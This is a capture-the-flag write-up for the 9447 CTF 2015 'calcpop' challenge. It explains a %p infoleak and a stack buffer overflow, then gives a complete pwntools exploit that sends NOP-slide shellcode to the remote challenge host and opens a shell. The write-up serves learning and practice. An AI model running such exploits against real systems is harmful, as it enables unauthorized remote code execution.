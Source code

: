 ```yaml
---
title: '9447ctf: calcpop'
date: 2015-12-07 00:00:00 Z
categories:
- writeup
tags:
- cat/pwn
- tool/pwntools
layout: post
author: f0rki
---
```


* **Category:** Exploitation
* **Points:** 80
* **Solves:** 174
* **Description:**

> See if you can pop *this* calc.
>
> Running at calcpop-4gh07blg.9447.plumbing port 9447
>
>
[calcpop.tar.gz](https://github.com/ctfs/write-ups-2015/raw/master/9447-ctf-2015/exploitation/calcpop/calcpop-42928687007cc7a92fc0ac6028cf8f64.tar.gz)  42928687007cc7a92fc0ac6028cf8f6


## Write-up

We can connect to the challenge and send it two numbers, which it will add for
us. If we send something without a space, it will tell us the address of
our input, because instead of `%s` there is a `%p` in the format string:

```
Missing a space; your input was %p\n
```

Such a nice a infoleak. After some poking around I found that it is a straight
forward stack based buffer overflow:

{% highlight bash %}
$ python -c 'import sys; sys.stdout.write("A"*256)' | nc calcpop-4gh07blg.9447.plumbing 9447
Welcome to calc.exe
Missing a space; your input was 0xff8b44d0
Missing a space; your input was 0xff8b44d0
timeout: the monitored command dumped core
/usr/local/bin/ctf_wrapper.sh: line 6: 13607 Segmentation fault      timeout 300 $1 $2
{% endhighlight %}

Also using checksec we can see that `NX` is disabled.

{% highlight bash %}
$ checksec --file calcpop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   calcpop
{% endhighlight %}

Yeah exploitation like it's the 90's. So we put shellcode on the stack and
overwrite the return address with the address we got from the infoleak. This is
pretty straightforward using a pwntools script.

The flag was: `9447{shELl_i5_easIEr_thaN_ca1c}`


{% highlight python %}
#!/usr/bin/env python

from pwn import *  # NOQA

context.arch = 'i386'

velf = ELF('./calcpop')

BUFFERSIZE = 128

shellcode = shellcraft.linux.sh()
log.info("using shellcode:\n" + shellcode)
shellcode = asm(shellcode)
nopslide = "\x90" * (BUFFERSIZE - len(shellcode))
payload = nopslide + shellcode

context.log_level = 'debug'

vp = remote('calcpop-4gh07blg.9447.plumbing', 9447)
#vp = process('./calcpop')
#gdb.attach(vp)

vp.recvline()
vp.sendline("")
s = vp.recvline().strip()
leakedaddr = s.split(" ")[-1]
leakedaddr = long(leakedaddr, 16)
log.info("leaked the addr " + hex(leakedaddr))

retaddr = leakedaddr + 20
log.info("trying return to " + hex(retaddr))

payload += (p32(retaddr)) * 10
#payload += (p32(0x41414141)) * 100

vp.sendline(payload)
vp.clean_and_log()
vp.sendline("exit")
vp.clean_and_log()
vp.sendline("pwd;ls;whoami;")
vp.clean_and_log()
vp.interactive()

{% endhighlight %}

